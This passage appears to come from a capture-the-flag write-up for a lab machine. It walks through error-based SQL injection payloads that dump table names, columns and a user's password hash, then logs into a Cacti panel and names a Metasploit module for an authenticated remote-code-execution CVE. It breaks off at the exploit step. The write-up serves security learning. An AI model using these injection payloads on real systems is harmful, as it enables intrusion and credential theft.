 `admin' and extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database())))#`

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250117160454.png)

We need to use `substring` due to the error limit, we need to intercept it:

`admin' AND extractvalue(1,concat('~',(SELECT SUBSTRING(GROUP_CONCAT(table_name),40,30) FROM information_schema.tables WHERE table_schema=database())))#`

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250117160547.png)

Found an users table, let's check it out:

`admin' AND extractvalue(1,concat('~',(SELECT SUBSTRING(GROUP_CONCAT(column_name),1,30) FROM information_schema.columns WHERE table_name='users')))#`

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250117160631.png)

Right here, we can obtain the username and the password, let's use this payload:

`admin' AND extractvalue(1,concat('~',(SELECT SUBSTRING(GROUP_CONCAT(username,':',password),1,30) FROM users)))#`

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250117160713.png)


We got the following: `admin：31a181c8372e3afc59dab863430610e8`

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250117160754.png)


Nice, we got credentials:

```ad-note
`admin`:`greencacti2001`
```

We can now log into the `cacti.monitorsthree.htb` panel:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250117160918.png)

Since we got access, we need a way to get a shell, let's look up internet and check any way to perform this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250117161104.png)

Found `CVE-2024-25641`, which talks about RCE in cacti 1.2.26 when authenticated, we can find an exploit in `metasploit`:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250117161259.png)

We need to use `exploit/multi/http/cacti_package_import_rce`:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250117161401.png)

Set options and send exploit:
